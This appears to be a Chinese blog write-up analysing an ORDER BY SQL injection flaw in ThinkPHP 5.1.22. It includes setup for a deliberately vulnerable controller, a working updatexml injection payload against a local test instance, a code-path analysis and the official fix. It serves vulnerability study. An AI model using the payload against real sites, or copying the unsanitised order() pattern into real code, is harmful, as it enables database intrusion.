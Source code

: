 # 原创
：  ThinkPHP5.1.x SQL注入（orderby注入）

# ThinkPHP5.1.x SQL注入（orderby注入）

#### ThinkPHP5.1.x SQL注入（orderby注入）

## 漏洞概要

> 



## 初始配置

> 
获取测试环境代码


```
composer create-project --prefer-dist topthink/think=5.1.22 tpdemo

```

> 
将 composer.json 文件的 require 字段设置成如下


```
"require": {
        "php": "&gt;=5.6.0",
        "topthink/framework": "5.1.22"
    },

```

> 
然后执行 `composer update`


> 
下载后的源码中，需要对 `application/index/controller/Index.php` 内容进行修改


```
&lt;?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        $orderby = request()-&gt;get('orderby');
        $result = db('users')-&gt;where(['username' =&gt; 'mochazz'])-&gt;order($orderby)-&gt;find();
        var_dump($result);
        return '&lt;style type="text/css"&gt;*{ padding: 0; margin: 0; } div{ padding: 4px 48px;} a{color:#2E5CD5;cursor: pointer;text-decoration: none} a:hover{text-decoration:underline; } body{ background: #fff; font-family: "Century Gothic","Microsoft yahei"; color: #333;font-size:18px;} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.6em; font-size: 42px }&lt;/style&gt;&lt;div style="padding: 24px 48px;"&gt; &lt;h1&gt;:) &lt;/h1&gt;&lt;p&gt; ThinkPHP V5.1&lt;br/&gt;&lt;span style="font-size:30px"&gt;12载初心不改（2006-2018） - 你值得信赖的PHP框架&lt;/span&gt;&lt;/p&gt;&lt;/div&gt;&lt;script type="text/javascript" src="https://tajs.qq.com/stats?sId=64890268" charset="UTF-8"&gt;&lt;/script&gt;&lt;script type="text/javascript" src="https://e.topthink.com/Public/static/client.js"&gt;&lt;/script&gt;&lt;think id="eab4b9f840753f8e7"&gt;&lt;/think&gt;';
    }
}

```

> 
在 `config/database.php` 文件中配置数据库相关信息，并开启 `config/app.php` 中的 `app_debug` 和 `app_trace` ，创建数据库信息如下


```
create database thinkphp;
use thinkphp;
create table users(
	id int primary key auto_increment,
	username varchar(50) not null
);
insert into users(id,username) values(1,'H3rmesk1t');

```

## 漏洞利用

> 
Payload


```
http://127.0.0.1/cms/public/index.php?orderby[id`|updatexml(1,concat(0x7,user(),0x7e),1)%23]=1 

```

## 漏洞分析

> 
首先数据都会进入到 `Request` 类中的 `input` 方法，并且经过 `filterValue` 方法的过滤和强制类型转换并返回 `$data`


> 
这里 `array_walk_recursive` 函数对数组中的成员递归调用 `filterValue` 过滤函数，但是 `filterValue` 过滤函数，不过滤数组的 `key` ， 只过滤了数组的 `value`，用户输入的数据会原样进入框架的 SQL 查询方法中，进入 `Query` 类


> 
恶意Payload 未经过任何过滤直接传递给 `options['order']` 中


> 
接着调用 `find` 方法，此处 `$this-&gt;connection` 是 `think/db/connectior/Mysql` 类 ，继承于 `Connection` 类，于是此处继续调用该类的 `find` 方法


<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/4dccfe114bc4402f9df5aae820915734.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/6f81151b864a4ec99a7b8d65e1e0996a.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

> 
该方法继续调用了 `$this-&gt;builder`, 即 `think/db/builder/Mysql` 类的 `select` 方法，该方法通过 `str_replace` 函数，将数据填充到SQL语句中


> 
然后调用了 `parseOrder` 方法，跟进该方法，`$order` 是输入的数据，然后经过了 `parseKey` 方法处理后返回给 `$array`，跟进查看该方法的实现


```
protected function parseOrder(Query $query, $order)
    {
        if (empty($order)) {
            return '';
        }

        $array = [];

        foreach ($order as $key =&gt; $val) {
            if ($val instanceof Expression) {
                $array[] = $val-&gt;getValue();
            } elseif (is_array($val)) {
                $array[] = $this-&gt;parseOrderField($query, $key, $val);
            } elseif ('[rand]' == $val) {
                $array[] = $this-&gt;parseRand($query);
            } else {
                if (is_numeric($key)) {
                    list($key, $sort) = explode(' ', strpos($val, ' ') ? $val : $val . ' ');
                } else {
                    $sort = $val;
                }

                $sort    = strtoupper($sort);
                $sort    = in_array($sort, ['ASC', 'DESC'], true) ? ' ' . $sort : '';
                $array[] = $this-&gt;parseKey($query, $key, true) . $sort;
            }
        }

        return ' ORDER BY ' . implode(',', $array);
    }

```

> 
跟进 `thinkphp/library/think/db/builder/Mysql.php`，该方法在变量 `$key` 的两端添加了反引号进行拼接并且没有任何过滤


> 
最终返回了一个带有 ORDER BY 的 SQL 注入 payload 给要执行的SQL语句，实现 ORDER BY 注入


> 
完整的方法调用，从下往上


## 漏洞修复

> 
官方的修复方法是：在拼接字符串前对变量进行检查，看是否存在 `)、#` 两个符号


## 攻击总结

> 
参考Mochazz师傅的审计流程

